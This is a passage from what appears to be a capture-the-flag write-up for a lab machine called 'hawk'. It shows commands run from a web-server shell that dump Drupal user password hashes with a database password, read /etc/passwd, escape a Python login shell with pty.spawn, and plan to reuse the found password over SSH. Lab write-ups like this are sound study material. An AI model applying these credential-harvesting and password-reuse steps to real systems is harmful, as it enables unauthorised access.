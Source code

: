 ```bash
actions
authmap
batch
block
<SNIP>
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog


www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "use drupal;select name,pass from users;"
<l4hawk -e "use drupal;select name,pass from users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
name    pass

admin   $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
bokchee $S$DoKURujkWKDd6E61WK7tH7CHzcNgqgVxcrp4HyN90PjFLY.vlatv
```

There's no other users found except the one I created.

### Re-use password

Then, let's check what user exists.

```bash
www-data@hawk:/home$ ls
ls
daniel


www-data@hawk:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tomcat:x:1001:46::/opt/tomat/temp:/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Debian-snmp:x:113:116::/var/lib/snmp:/bin/false
```

There is only `daniel` which has a shell and home directory.
Btw, the shell for `daniel` is not a normal shell but `python`.
This can simply escaped using `import pty;pty.spawn("/bin/bash")`
Using the found credential(`drupal4hawk`), let's try `ssh` to the target.

